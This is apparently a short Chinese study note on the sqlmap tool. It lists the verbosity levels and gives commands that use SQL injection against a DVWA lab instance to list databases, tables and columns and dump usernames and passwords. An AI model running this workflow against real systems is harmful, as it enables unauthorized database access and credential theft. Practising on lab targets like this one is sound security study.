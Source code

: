 # python-network-programming
### sqlmap笔记
#### sqlmap日志级别
```text
sqlmap -v
```
信息级别: 0-6 （缺省1），其值具体含义：  
0只显示python错误以及严重的信息；  
1同时显示基本信息和警告信息（默认）；  
2同时显示debug信息；  
3同时显示注入的payload；  
4同时显示HTTP请求；  
5同时显示HTTP响应头；  
6同时显示HTTP响应页面；  
如果想看到sqlmap发送的测试payload最好的等级就是3。
#### 查看数据库
```text
python sqlmap.py -u "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=&Submit=Submit#" --cookie="security=low; PHPSESSID=26ct5bdhinubutlthkgd8krov6" --dbs
```
#### 查看表
```text
python sqlmap.py -u "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=&Submit=Submit#" --cookie="security=low; PHPSESSID=26ct5bdhinubutlthkgd8krov6" -D dvwa --tables
```
#### 查看字段
```text
C:\soft\sqlmap>python sqlmap.py -u "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=&Submit=Submit#" --cookie="security=low; PHPSESSID=26ct5bdhinubutlthkgd8krov6" -D dvwa -T users
--columns
```
#### 查看数据
```text
C:\soft\sqlmap>python sqlmap.py -u "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=&Submit=Submit#" --cookie="security=low; PHPSESSID=26ct5bdhinubutlthkgd8krov6" -D dvwa -T users
-C user,password --dump
```
#### 参数
-u 后面接url  
-l 后面接日志文件，如burpsuite的日志文件  
-r 从文件中加载http请求，加载https请求需要–force-ssl  
--cookie 加载cookie值  
--user-agent 加载UA  
--proxy 加载代理  
–level=LEVEL  执行测试的等级（1-5，默认为1）  
–risk=RISK  执行测试的风险（0-3，默认为1）  


